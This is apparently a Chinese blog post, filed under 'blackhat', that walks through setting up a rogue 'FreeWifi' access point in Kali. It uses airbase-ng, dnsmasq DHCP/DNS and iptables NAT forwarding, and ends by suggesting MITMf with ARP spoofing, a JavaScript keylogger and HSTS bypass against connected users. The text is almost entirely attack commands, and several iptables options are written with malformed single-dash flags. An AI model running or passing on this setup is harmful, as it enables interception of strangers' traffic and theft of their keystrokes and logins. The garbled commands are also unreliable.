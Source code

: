 ```yaml
---
title: 在kali中创建伪装AP热点
name: create-fake-ap-in-kali
date: 2015-10-19 04:53
tags: [git, 咖啡]
categories: [blackhat]
---
```


## 1.必须工具
- Aircrack-ng
- Dnsmasq
- Wireless Adapter

**Aircrack-ng**：Aircrack-ng是一个与802.11标准的无线网络分析有关的安全软件，主要功能有：网络侦测，数据包嗅探，WEP和WPA/WPA2-PSK破解。Aircrack-ng可以工作在任何支持监听模式的无线网卡上并嗅探802.11a，802.11b，802.11g的数据。

**Dnsmasq**：DNSmasq是一个小巧且方便地用于配置DNS和DHCP的工具，适用于小型网络，它提供了DNS功能和可选择的DHCP功能。

**Wireless Adapter**：无线网卡，伪装AP热点无线一个无线网卡，建议使用外置的无线网卡。

## 2.查看无线网卡并启动监听
使用`airmon-ng`命令查看当前可用的无线网卡信息，如wlan0
使用`airmon-ng start [网卡名称]`启动无线网卡为监听模式，得到wlan0mon

## 3.创建无线AP热点
使用命令`airbase-ng -e [AP_NAME] -c [channel] wlan0mon`创建无线AP热点，如：
```shell
airbase-ng -e FreeWifi -c 6 wlan0mon
```
此时可以扫描到创建的无线热点，但是不能连接去。

## 4.创建虚拟网卡及网关
新打开一个终端，执行以下命令创建虚拟网卡及其路由配置
```shell
ifconfig at0 10.0.0.1/24 up
ifconfig at0 mtu 1400
route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
```

## 5.编辑Dnsmasq配置并启动
编辑 **dnsmasq** 配置文件`vi /etc/dnsmasq.conf`
```shell
interface=at0
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-dhcp
log-queries
```
启动 **dnsmasq** 服务
```
dnsmasq -C /etc/dnsmasq.conf -d
```

## 6.开启IP转发并设置IPTables转发规则
```shell
iptables -flush
echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -P FORWARD ACCEPT
iptables -append FORWARD -in-interface at0 ACCEPT

-- iptables -table -nat -append POSTROUTING -out-interface eth0 -j MASQUERADE
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

## 后续可以做什么？
```
iptables -t nat -A PREROUTING -p tcp -destination 80 -j REDIRECT -to-port 10000

# MITMF
mitmf -i at0 --spoof --arp -gateway 10.0.0.1 --jskeylogger --hsts
```
